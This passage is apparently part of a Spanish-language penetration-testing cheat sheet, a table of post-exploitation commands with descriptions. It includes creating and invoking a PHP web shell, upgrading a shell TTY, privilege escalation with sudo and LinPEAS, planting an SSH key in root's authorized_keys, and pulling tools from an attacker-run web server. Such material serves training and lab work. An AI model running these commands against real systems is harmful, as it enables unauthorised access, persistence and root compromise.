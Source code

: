 | `python -c 'import pty; pty.spawn("/bin/bash")'`                                      | Actualizar shell tty (1)                                                            |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                           | Actualizar shell tty (2)                                                            |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                     | Crear un archivo PHP de WebShell                                                    |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                         | Ejecutar un comando en una red web cargada                                          |
| **Privilege Escalation**                                                              |                                                                                     |
| `./linpeas.sh`                                                                        | Ejecutar el script `LinPeas` para enumerar el servidor remoto                       |
| `sudo -l`                                                                             | Lista disponible para `sudo` privileges                                             |
| `sudo -u user /bin/echo Hello World!`                                                 | Ejecute un comando con `sudo`                                                       |
| `sudo su -`                                                                           | Cambiar al usuario root (si tenemos acceso a `sudo su`)                             |
| `sudo su user -`                                                                      | Cambie a un usuario (si tenemos acceso a `sudo su`)                                 |
| `ssh-keygen -f key`                                                                   | Crea una nueva llave `SSH`                                                          |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`          | Agregue la clave pública generada al usuario                                        |
| `ssh root@10.10.10.10 -i key`                                                         | `SSH` al servidor con la clave privada generada                                     |
| **Transferring Files**                                                                |                                                                                     |
| `python3 -m http.server 8000`                                                         | Inicia un servidor web local                                                        |
| `wget http://10.10.14.1:8000/linpeas.sh`                                              | Descarga un archivo en el servidor remoto desde nuestra `máquina local`             |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`                                | Descarga un archivo en el servidor remoto desde nuestra `máquina local`             |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`                                      | Transfiera un archivo al servidor remoto con `SCP` (requiere acceso `SSH`)          |
| `base64 shell -w 0`                                                                   | Convertir un archivo a `base64`                                                     |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`                                     | Convertir un archivo de `base64` de regreso a su origen                             |
| `md5sum shell`                                                                        | Verifique el `md5sum` del archivo para asegurarse de que se convierta correctamente |
